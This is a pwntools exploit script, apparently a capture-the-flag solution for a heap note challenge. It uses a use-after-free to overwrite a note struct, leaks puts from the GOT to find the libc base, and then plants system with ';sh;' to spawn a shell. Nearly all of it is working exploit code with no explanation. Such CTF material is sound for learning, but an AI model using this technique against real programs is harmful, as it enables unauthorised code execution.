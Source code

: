 ```py

addr_puts_got = elf.got["puts"]
addr_print_func = 0x804862b


def add_note(size, contents):
    p.send(b"1\n")
    p.recvuntil(b"Note size :")
    p.send(str(size))
    p.recvuntil(b"Content :")
    p.send(contents)
    p.recvuntil(b"Success !\n")
    skip_menu()

def delete_note(index):
    p.send(b"2")
    p.recvuntil(b"Index :")
    p.send(str(index))
    p.recvuntil(b"Success")
    skip_menu()

def print_note(index):
    p.send(b"3")
    p.recvuntil(b"Index :")
    p.send(str(index) + "\n")

def skip_menu():
    p.recvuntil(b"----------------------")
    p.recvuntil(b"----------------------")
    p.recvuntil(b"----------------------\n")


# leak the libc base
# malloc note0
add_note(8, b"A"*2)
# malloc note1
add_note(8, b"A"*2)

# free note1
delete_note(1)
# free note0
delete_note(0)

# malloc note2
add_note(32, b"A"*10)

# malloc note3 and overwrites note1 struct
add_note(8, p32(addr_print_func) + p32(addr_puts_got))

# print note1
print_note(1)

leaked_addr = u32(p.recv(4))
libc_base = leaked_addr - libc_puts
system_addr = libc_base + libc_system

log.info(f"leaked libc base: {hex(libc_base)}")

# free note3
delete_note(3)

# malloc note4 to spawn shell
add_note(8, p32(system_addr) + b";sh;")
```